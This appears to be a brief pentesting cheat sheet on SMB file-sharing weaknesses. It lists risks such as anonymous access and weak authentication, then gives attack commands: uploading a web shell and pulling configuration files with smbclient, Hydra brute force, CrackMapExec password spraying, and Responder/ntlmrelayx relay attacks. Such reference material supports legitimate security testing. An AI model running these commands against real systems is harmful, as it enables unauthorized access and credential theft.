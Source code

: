 ## SMB Security Issues

### 1. Anonymous Access
- **Risk**: Unauthorized share access and information disclosure
- **Detection**: Null session connections
- **Exploitation**: Data theft, user enumeration

### 2. Weak Authentication
- **Risk**: Credential-based attacks
- **Detection**: Password spraying, brute force
- **Exploitation**: Account compromise

### 3. Excessive Share Permissions
- **Risk**: Unauthorized file access/modification
- **Detection**: Permission enumeration
- **Exploitation**: Data manipulation, malware deployment

### 4. Information Disclosure
- **Risk**: Sensitive data exposure
- **Detection**: Share browsing, file enumeration
- **Exploitation**: Intelligence gathering

## SMB Attack Vectors

### 1. Share Exploitation
```bash
# File upload for web shells
smbclient //target/webshare
smb: \> put shell.php

# Configuration file access
smbclient //target/config
smb: \> get database.conf
```

### 2. Password Attacks
```bash
# Hydra SMB brute force
hydra -l user -P passwords.txt smb://target_ip

# CrackMapExec password spraying
crackmapexec smb target_ip -u users.txt -p 'Password123!'
```

### 3. Relay Attacks
```bash
# SMB relay with Responder
responder -I eth0 -A

# ntlmrelayx.py for relay attacks
ntlmrelayx.py -tf targets.txt -smb2support
```
